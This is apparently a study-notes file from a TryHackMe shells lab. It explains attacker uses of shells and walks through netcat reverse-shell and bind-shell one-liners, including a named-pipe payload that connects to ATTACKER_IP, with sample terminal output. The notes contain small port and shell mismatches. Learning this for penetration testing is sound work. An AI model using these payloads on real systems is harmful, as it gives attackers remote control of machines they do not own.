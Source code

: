 # # Shell Overview
![image](https://github.com/user-attachments/assets/6afcc389-174d-46ae-a018-0f010c6ae958)

## What is a Shell?

A shell is software that allows a user to interact with an OS. It can be a graphical interface, but it is usually a command-line interface, and this will depend on the operating system running on the target system.

In cyber security, it commonly refers to a specific shell session an attacker uses when accessing a compromised system, allowing them to run commands and execute software. This will allow attackers to execute several activities, some of which are described below.

    Remote System Control: allows the attacker to execute commands or software remotely in the target system.
    Privilege Escalation: If initial access through a shell is limited or restricted, attackers can explore ways to escalate privileges to more elevated or administrative access.
    Data Exfiltration: Once attackers have access to execute commands through an obtained shell, they can explore the system to read and copy sensitive data from it.
    Persistence and Maintenance Access: Once shell access is obtained, attackers can create access through users and credentials or copy backdoor software to maintain access to the target system for later usage.
    Post-Exploitation Activities: After access to a shell is granted, attackers can perform a wide range of post-exploitation activities, such as deploying malware, creating hidden accounts, and deleting information.
    Access Other Systems on the Network: Depending on the attacker's intentions, the obtained shell can be just an initial access point. The goal can be to hop through the network to a different target using the obtained shell as a pivot to different points in the compromised system network. This is also known as pivoting.

- All of the shells we will describe in the next tasks can help to achieve different limitations of the attacks described above.

## Reverse Shell (Attacker has listener port open)
    nc -lvnp 443

A reverse shell, sometimes referred to as a "connect back shell," is one of the most popular techniques for gaining access to a system in cyberattacks. The connections initiate from the target system to the attacker's machine, which can help avoid detection from network firewalls and other security appliances.

## How Reverse Shells Work
Set up a Netcat (nc) Listener

Let's now understand how a reverse shell works in a practical scenario using the tool Netcat. This utility supports multiple OSs and allows reading and writing through a network.

As mentioned above, a reverse shell will connect back to the attacker's machine. This machine will be waiting for a connection, so let's use Netcat to listen to a connection using the following command nc -lvnp 443.
Terminal

attacker@kali:~$ nc -lvnp 443
listening on [any] 4444 ...

        

The command above uses the -l option to indicate Netcat to listen or wait for a connection. The -v option enables verbose mode. The -n option prevents the connections from using DNS for lookup, so it will not resolve any hostname it will use an IP address. Finally, the -p flag indicates the port that will be used to wait for the connection, in the case above, port 443.

Any port can be used to wait for a connection, but attackers and pentesters tend to use known ports used by other applications like 53, 80, 8080, 443, 139, or 445. This is to blend the reverse shell with legitimate traffic and avoid detection by security appliances.
Gaining Reverse Shell Access

Once we have our listener set, the attacker should execute what is known as a reverse shell payload. This payload usually abuses the vulnerability or unauthorized access granted by the attacker and executes a command that will expose the shell through the network. There's a variety of payloads that will depend on the tools and OS of the compromised system. We can explore some of them here.

As an example, let's analyze an example payload named a pipe reverse shell, as shown below.
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | sh -i 2>&1 | nc ATTACKER_IP ATTACKER_PORT >/tmp/f

Explanation of the Payload

    rm -f /tmp/f - This command removes any existing named pipe file located at /tmp/f/. This ensures that the script can create a new named pipe without conflicts.
    mkfifo /tmp/f - This command creates a named pipe, or FIFO (first-in, first-out), at /tmp/f. Named pipes allow for two-way communication between processes. In this context, it acts as a conduit for input and output.
    cat /tmp/f - This command reads data from the named pipe. It waits for input that can be sent through the pipe.
    | bash -i 2>&1 - The output of cat is piped to a shell instance (bash -i), which allows the attacker to execute commands interactively. The 2>&1 redirects standard error to standard output, ensuring that error messages are sent back to the attacker.
    | nc ATTACKER_IP ATTACKER_PORT >/tmp/f - This part pipes the shell's output through nc (Netcat) to the attacker's IP address (ATTACKER_IP) on the attacker's port (ATTACKER_PORT).
    >/tmp/f -This final part sends the output of the commands back into the named pipe, allowing for bi-directional communication.

The payload above can expose the shell bash through the network to the desired listener.
Attacker Receives the Shell

Once the above payload is executed, the attacker will receive a reverse shell, as shown below, allowing them to execute commands as if they were logging into a regular terminal in the OS.

Attacker Terminal Output (Receiving Shell)
Terminal

attacker@kali:~$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.4.99.209] from (UNKNOWN) [10.10.13.37] 59964
To run a command as administrator (user "root"), use "sudo ".
See "man sudo_root" for details.

target@tryhackme:~$

        

The output above shows the connection coming from the IP 10.10.13.37, which is the IP address of the compromised target.

## Bind Shell(Vitim listener port)

As the name indicates, a bind shell will bind a port on the compromised system and listen for a connection; when this connection occurs, it exposes the shell session so the attacker can execute commands remotely.

This method can be used when the compromised target does not allow outgoing connections, but it tends to be less popular since it needs to remain active and listen for connections, which can lead to detection.
How bind shells work

Setting Up the Bind Shell on the Target

Let's create a bind shell. In this case, the attacker can use a command like the one below on the target machine.

``` rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc -l 0.0.0.0 8080 > /tmp/f```
## Explanation of the Payload

    rm -f /tmp/f - This command removes any existing named pipe file located at /tmp/f/. This ensures that the script can create a new named pipe without conflicts.
    mkfifo /tmp/f - This command creates a named pipe, or FIFO, at /tmp/f. Named pipes allow for two-way communication between processes. In this context, it acts as a conduit for input and output.
    cat /tmp/f - This command reads data from the named pipe. It waits for input that can be sent through the pipe.
    | bash -i 2>&1 - The output of cat is piped to a shell instance (bash -i), which allows the attacker to execute commands interactively. The 2>&1 redirects standard error to standard output, ensuring error messages are returned to the attacker.
    | nc -l 0.0.0.0 8080 - Starts Netcat in listen mode (-l) on all interfaces (0.0.0.0) and port 8080. The shell will be exposed to the attacker once they connect to this port.
    >/tmp/f This final part sends the commands' output back into the named pipe, allowing for bidirectional communication.

The command above will listen for incoming connections and expose a bash shell. We need to note that ports below 1024 will require Netcat to be executed with elevated privileges. In this case, using port 8080 will avoid this.

## Terminal on the Target Machine (Bind Shell Setup)
Terminal

```target@tryhackme:~$ rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc -l 0.0.0.0 8080 > /tmp/f```

        

Once the command is executed, it will wait for an incoming connection, as shown above.

Attacker Connects to the Bind Shell

Now that the target machine is waiting for incoming connections, we can use Netcat again with the following command to connect.

```nc -nv TARGET_IP 8080```
## Explanation of the command

    nc - This invokes Netcat, which establishes the connection to the target.
    -n - Disables DNS resolution, allowing Netcat to operate faster and avoid unnecessary lookups.
    -v - Verbose mode provides detailed output of the connection process, such as when the connection is established.
    TARGET_IP - The IP address of the target machine where the bind shell is running.
    8080 - The port number on which the bind shell listens.

## Attacker Terminal (After Connection)

Terminal

```attacker@kali:~$ nc -nv 10.10.13.37 8080 
(UNKNOWN) [10.10.13.37] 8080 (http-alt) open
target@tryhackme:~$
```
- After connecting, we can get a shell, as shown above, and execute commands.



